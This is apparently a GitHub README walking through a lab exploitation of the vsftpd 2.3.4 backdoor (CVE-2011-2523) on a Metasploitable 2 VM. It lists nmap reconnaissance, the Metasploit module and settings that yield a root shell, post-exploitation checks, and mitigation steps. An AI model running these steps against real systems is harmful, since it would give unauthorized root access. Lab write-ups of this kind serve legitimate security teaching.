



Ignore 
# Exploiting vsftpd 2.3.4 Backdoor (CVE-2011-2523) Lab Walkthrough

## 📌 Project Overview
This repository documents a local laboratory environment demonstrating the exploitation of the historic **vsftpd 2.3.4 backdoor vulnerability**. This project was created for educational purposes to understand how supply-chain attacks manifest in application source code and how security practitioners detect and validate them.

### Vulnerability Background
In 2011, the source code archive for `vsftpd-2.3.4.tar.gz` was maliciously modified on its official distribution server. The inserted backdoor triggers a listening root shell on port `6200` whenever a username containing a smiley face `:)` is sent to the FTP service on port `21`.

---

## 🛠️ Lab Environment Setup
* **Attacker Machine:** Kali Linux (IP: [Your Kali IP here])
* **Target Machine:** Metasploitable 2 (IP: 192.168.124.129)
* **Network Configuration:** Host-Only / Isolated NAT network

---

## 🚀 Execution Steps

### Step 1: Host Verification & Reconnaissance
First, verify network connectivity to the target asset using a simple ICMP ping, followed by a targeted version scan using Nmap to identify the running FTP service version.

```bash
# Verify connectivity
ping -c 3 192.168.124.129

# Enumerate service versions on the target host
nmap -sV 192.168.124.129
```

*Figure 1: Split-pane terminal scan verifying network reachability via ICMP ping and service exposure via Nmap.*

*Observation: The Nmap output confirmed port 21 is open, running `vsftpd 2.3.4`.*

### Step 2: Exploitation via Metasploit Framework
Using the Metasploit Framework, we search for and load the specific exploit module developed for this historical vulnerability.

```msf
# Launch the Metasploit console
msfconsole

# Locate the appropriate exploit module
search vsftpd 2.3.4

# Load the module
use exploit/unix/ftp/vsftpd_234_backdoor

# Review the required variables
show options

# Configure the target IP address
set RHOST 192.168.124.129

# Execute the payload
exploit
```

*Figure 2: Configuring variables within the Metasploit Framework.*

### Step 3: Post-Exploitation Enumeration
Once the interactive shell session is established on the hidden port (6200), run system commands to verify root-level context and gather target hardware/network profiles.

```bash
# Verify current user context (Expected output: root)
whoami

# View user/group ID details
id

# Print system information and kernel architecture
uname -a

# Identify the host system name
hostname
```

_Figure 3: Triggering the target string vulnerability and successfully established a remote command session._

[Root Verification](proof_of_root.png)
_Figure 4: Verification commands executing under root adminstrative authorization code._

---

## 🛡️ Mitigation & Remediation
To properly secure a system against this legacy vulnerability:
1. **Upgrade:** Ensure the `vsftpd` service is updated to a clean version (2.3.5 or later).
2. **Network Filtering:** Restrict ingress network access to FTP ports and strictly log or block attempts to access unexpected high-range ports like port `6200`.
3. **Integrity Checking:** Always verify the MD5/SHA256 hashes of downloaded software packages against trusted, official vendor manifests.

---
*Disclaimer: This walkthrough is intended solely for educational purposes and authorized penetration testing labs. Unauthorized scanning or exploitation of target systems is strictly illegal.*
